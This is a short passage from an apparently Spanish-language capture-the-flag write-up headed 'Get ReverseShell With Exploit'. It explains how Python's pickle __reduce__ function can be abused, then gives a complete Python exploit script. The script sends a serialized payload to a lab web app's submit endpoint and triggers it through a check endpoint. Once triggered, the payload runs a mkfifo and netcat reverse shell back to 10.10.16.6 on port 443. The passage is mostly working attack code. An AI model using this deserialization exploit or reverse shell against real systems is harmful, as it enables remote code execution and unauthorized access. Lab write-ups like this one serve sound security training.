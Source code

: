 ### Get ReverseShell With Exploit

Todo esto es gracias a la función \_\_reduce\_\_ de la cual podemos aprovecharnos para cargar comandos... Todo esto que hemos visto aplicado a la web quedaría de la siguiente forma en un script.

```python
#!/usr/bin/python
import os,pickle,requests
from hashlib import md5


url_submit="http://10.10.10.70/submit"
url_check="http://10.10.10.70/check"
proxies={"http":"http://127.0.0.1:8080"}


class PickleRce(object):
    def __reduce__(self):
        return (os.system,('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.6 443 >/tmp/f; homer',))

pickle_data = pickle.dumps(PickleRce())

def deserialization_request():

        quote="test"

        data={
                "character":pickle_data,
                "quote":quote

                }

        r1=requests.post(url_submit,data=data,proxies=proxies)


        print (pickle_data)


        hash=md5(pickle_data + quote).hexdigest()
        print (hash)


        data2={
                "id":hash
        }

        r2=requests.post(url_check, data=data2,proxies=proxies)


if __name__ == '__main__':

        deserialization_request()
```
